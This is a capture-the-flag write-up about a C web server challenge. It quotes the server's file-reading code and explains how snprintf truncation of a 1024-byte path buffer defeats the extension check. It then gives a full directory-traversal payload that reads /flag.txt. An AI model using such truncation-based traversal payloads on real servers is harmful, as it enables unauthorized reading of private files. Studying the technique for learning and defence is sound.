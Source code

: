 For this chall, you are given the source code (the server code being written in c) and you have to perform an LFI to get the flag.

The main page of the site is this, you can't do much with it.

![image](https://github.com/user-attachments/assets/1fbb8285-1757-41e4-b96b-8243ca40e90a)

What is interesting is the source code, you have 3 functions that will help to understand how to get the flag:

```c
//check the extension
bool ends_with(char *text, char *suffix) {
    int text_length = strlen(text);
    int suffix_length = strlen(suffix);

    return text_length >= suffix_length && \
           strncmp(text+text_length-suffix_length, suffix, suffix_length) == 0;
}
```

```c
//try to read a file
FileWithSize *read_file(char *filename) {
    if (!ends_with(filename, ".html") && !ends_with(filename, ".png") && !ends_with(filename, ".css") && !ends_with(filename, ".js")) return NULL;

    char real_path[BUFFER_SIZE];
    snprintf(real_path, sizeof(real_path), "public/%s", filename);
    FILE *fd = fopen(real_path, "r");
    if (!fd) return NULL;
    fseek(fd, 0, SEEK_END);
    long filesize = ftell(fd);
    fseek(fd, 0, SEEK_SET);

    char *content = malloc(filesize + 1);
    if (!content) return NULL;
    fread(content, 1, filesize, fd);
    content[filesize] = '\0';

    fclose(fd);

    FileWithSize *file = malloc(sizeof(FileWithSize));
    file->content = content;
    file->size = filesize;
 
    return file;
}
```

```c
//process the requested resource
void handle_client(int socket_id) {
    char buffer[BUFFER_SIZE];
    char requested_filename[BUFFER_SIZE];

    while (1) {
        memset(buffer, 0, sizeof(buffer));
        memset(requested_filename, 0, sizeof(requested_filename));

        if (read(socket_id, buffer, BUFFER_SIZE) == 0) return;

        if (sscanf(buffer, "GET /%s", requested_filename) != 1)
            return build_response(socket_id, 500, "Internal Server Error", read_file("500.html"));

        
        FileWithSize *file = read_file(requested_filename);
        if (!file)
            return build_response(socket_id, 404, "Not Found", read_file("404.html"));

        build_response(socket_id, 200, "OK", file);
    }
}
```

What you need to understand to retreve the flag:
- It retrieves the requested path: `sscanf(buffer, "GET /%s", requested_filename) != 1`
- It checks if the path is valid: `if (!ends_with(filename, ".html") && !ends_with(filename, ".png") && !ends_with(filename, ".css") && !ends_with(filename, ".js")) return NULL;`
- It checks if the requested resource exists in the public directory: `snprintf(real_path, sizeof(real_path), "public/%s", filename);`

With this mechanism, we understand that we have to escalate the directories to get to /flag.txt. However, we can't request a file that do not have the previously seen extensions. Luckily for us, there is a vulnerability on how the existence of the path is verified. This two lines of code is where the vulnerability lies:

```c
char real_path[BUFFER_SIZE]; //BUFFER_SIZE is defined in the code as having a value of 1024
snprintf(real_path, sizeof(real_path), "public/%s", filename);
```

By making some tests, I found out the snprintf function truncates the result when trying to put it in a buffer that can't hold the value. Meaning that if we wend a filename that is greater than 1024 characters, the real_path buffer will not take the filename as its whole but only the first 1024 characters. To get the flag we just have to send a payload that escalates the directories to the root one while being large enough to be truncated without losing correct file name.

Here's the payload: `../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../flag.txt.js`

Note: the payload is only 1019 long because the final path will contain public/ along with our payload
